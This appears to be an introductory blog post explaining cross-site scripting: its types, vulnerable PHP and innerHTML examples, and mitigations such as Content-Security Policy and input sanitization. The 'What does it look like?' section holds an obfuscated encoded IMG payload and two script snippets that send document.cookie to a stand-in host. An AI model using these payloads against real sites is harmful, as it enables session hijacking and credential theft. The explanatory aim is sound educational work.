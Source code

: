 ```yaml
---
layout: post
title: What Is XSS?
---
```


## What Is It?
Cross-Site Scripting (XSS) is a client-side attack that allows an attacker to run arbitrary Javascript on a web site or application. This enables an attacker to do malicious things such as steal cookies which can lead to session hijacking, steal user credentials, or log keystrokes. 
There are a few different types of Cross-Site Scripting. The most common types are reflected, stored or persistent, and DOM-based XSS. There is also a less common version called mutation XSS (mXSS). Being a client-side attack, what they have in common is that a payload exploiting these vulnerabilities needs to be delivered to the user in some fashion. This, typically, means phishing.

The difference between them, for the most part, is self-explanatory. A search function that displays the input entered back onto the page is a good example of reflected XSS. 

Consider the following code snippet:
```
<body>
	<form action=”” method=”get”>
		<input type=”text” name=”search”>
		<input type=”submit” value=”Submit”>
	</form>
```

```php
  <?php
    $query = $_GET['search'];
    echo "Results for: $search"; 
  ?>
```
The XSS payload would be stored within the $query variable and then executed as it is reflected onto the page.
Stored XSS, on the other hand, means the payload is not immediately executed. It will be stored in a database, and upon retrieval will be executed somewhere. This could be the comment section of a blog for example. First, an attacker would submit a XSS payload as a comment. Then, once a user navigates to the post that comment is for, the payload would execute.

DOM-based XSS is where things get tricky. To understand this attack, one must first understand the DOM. This stands for the Document-Object Model. It is a tree-representation of the structure of documents in memory. Essentially, Javascript interacts with and manipulates the HTML on a website through the DOM. 
DOM-based XSS comes into play when Javascript methods such as .innerHTML are used with unsanitized data. 

Consider the following code snippet:
```javascript
let input = post.author;
element.innerHTML = input;
```
Since the input variable is user-supplied, a malicious payload could be supplied. DOM-based XSS can get very complicated so there will be other resources listed at the end that will explain it better. 

## What does it look like?
A XSS payload can be as simple as &lt;script&gt;alert(1)&lt;/script&gt; or as complex as &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;.

While Flash and ActiveX can also be vectors for XSS, today, it tends to be javascript. So, any javascript code could potentially be a XSS payload. 
Generally, &lt;script&gt;alert(1)&lt;/script&gt; is used to test for the vulnerability to see if it is exploitable. 

The following code snippets may also be seen:
```
<script>
  let image = new Image(); 
  image.src='http://example.com?c='+document.cookie;
</script>
```
```
<script>
  document.location="http://example.com?c="+document.cookie;
</script>
```
## Mitigations
There are several ways to mitigate against XSS. All of them originate from the same consideration: never trust user input. And none of them should ever be solely relied upon.

A well-configured Content-Security Policy (CSP) can be a great step towards preventing XSS. It defines trust boundaries for scripts, stylesheets and other media sources. 

Input validation and sanitization are also excellent options. Input validation is the process of ensuring the data submitted is what was expected. Input sanitization is the process of removing or manipulating potentially malicious data. 

## Resources
[DOM XSS Explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

[DOM Based XSS Software Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS)

[What is DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

[Content-Security Policy - Google](https://developers.google.com/web/fundamentals/security/csp/)

[Content-Security Policy: Use Cases](https://beaglesecurity.com/blog/article/content-security-policy.html)
